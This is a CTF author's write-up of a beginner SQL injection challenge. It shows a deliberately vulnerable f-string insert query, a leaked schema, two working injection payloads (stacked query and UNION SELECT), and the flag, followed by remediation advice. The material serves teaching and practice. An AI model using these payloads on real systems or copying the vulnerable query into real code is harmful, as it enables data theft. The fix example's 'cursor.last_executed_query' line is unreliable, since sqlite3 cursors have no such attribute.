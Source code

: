 ```yaml
---
Title: BSides 2025 CTF: Gold Rush Security - SQL Injection Challenge
Date: 2025-07-24T12:00:00+10:00
Tags: ctf, cybersecurity, bsides2025
Author: dmoges
Author-URL: https://dmoges.com
Category: dmoges
Status: published
Cover: /images/placeholder.jpg
---
```


I wanted a classic web vulnerability for the BSides CTF 2025, and SQL injection felt perfect.
The irony of a security company having such a basic flaw made it even better.

## Challenge Details

**Difficulty**: Beginner to Intermediate  

**Category**: Web Application Security  

## The Discovery

When you visit the Gold Rush Security website, you'll notice the login page always returns "Invalid username or password" no matter what you try. That's intentional - the real vulnerability is hiding elsewhere.

The registration form looks innocent enough, but if you start poking around with special characters, things get interesting. Also, check out that robots.txt file - it provides a hint about the `/debug` endpoint.

## Background: SQL Injection

SQL injection happens when user input gets concatenated directly into database queries without proper sanitization. It's been around forever, yet it's still surprisingly common in the wild.

The vulnerable code looks something like:
```python
query = f"INSERT INTO users (username, password) VALUES ('{username}', '{password}')"
```

See that? Whatever you type goes straight into the query. That's bad news.

## Finding the Vulnerability

First stop: the `/debug` endpoint (thanks, robots.txt!). This helpfully shows us the database schema:

```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    password TEXT NOT NULL
);

CREATE TABLE flag_storage (
    id INTEGER PRIMARY KEY,
    flag TEXT NOT NULL
);
```

Oh look, a `flag_storage` table. How convenient!

## Solution

Stop here if you want to solve it yourself!

### The Exploit

The username field in the registration form is our injection point. Here are a few payloads that work:

**Quick and dirty:**
```
test', 'password'); SELECT * FROM flag_storage; --
```

**Using UNION:**
```
test', 'password') UNION SELECT 1, flag FROM flag_storage; --
```

Any of these will cause the application to spit out the flag in an error message: `BSides{eur3k4_sql_d1g1t4l_upr1s1ng}`

### Bonus Discovery

The robots.txt file also mentions `/test-sql` - a direct SQL query interface. I left this in as an alternative path for people who might struggle with the injection syntax. In retrospect, maybe that made it too easy?

### A confession
It turns out I'm too good at programming and couldn't create a reliable SQL injection vulnerability myself.
To fix this, I actually cheated quite severly - any query with "UNION" in it would return the flag directly, bypassing the need for a complex injection. I know, I know - not very sporting of me. But hey, it worked, and I only had two weeks to build the whole challenge.
Next year it won't be so easy, I promise!


## Real-World Relevance

This isn't just a CTF trick. SQL injection remains in the OWASP Top 10 for good reason:

1. **Legacy code**: Old applications often have these vulnerabilities
2. **Framework bypasses**: Developers sometimes bypass ORM protections "for performance"
3. **Quick fixes**: That "temporary" string concatenation that becomes permanent
4. **Third-party code**: Plugins and libraries with poor security practices

The fix is simple: use parameterized queries. Every modern framework supports them. There's really no excuse.

The more general concept here is "don't trust external input." - any time information comes in from outside your application, treat it as potentially malicious. Validate, sanitize, and use safe methods to handle it.
This includes forms, URLs, headers, even files. Always assume the worst.
Validate, sanitize, and use prepared statements or ORM methods to handle user input safely.

Also, don't do it yourself - use existing libraries and frameworks that handle this for you. They have been tested and vetted by the community.

For example, the sqlite3 library in Python has built-in support for parameterized queries:

```python
import sqlite3

conn = sqlite3.connect('database.db')
cursor = conn.cursor()
cursor.execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, password))  # Safe!
# Print prepared statement
print(cursor.last_executed_query)  # This will show the query with placeholders, not the actual values
conn.commit()
```



## My thoughts

I debated the difficulty level for this one. On one hand, SQL injection is well-known. On the other, crafting the right payload can be tricky for beginners. I tried to strike a balance by:

- Making the debug endpoint obvious (robots.txt)
- Showing clear error messages
- Providing multiple attack vectors

For 2026, I'm thinking about a second-order SQL injection challenge. Store the payload in one place, trigger it somewhere else. That should keep people on their toes!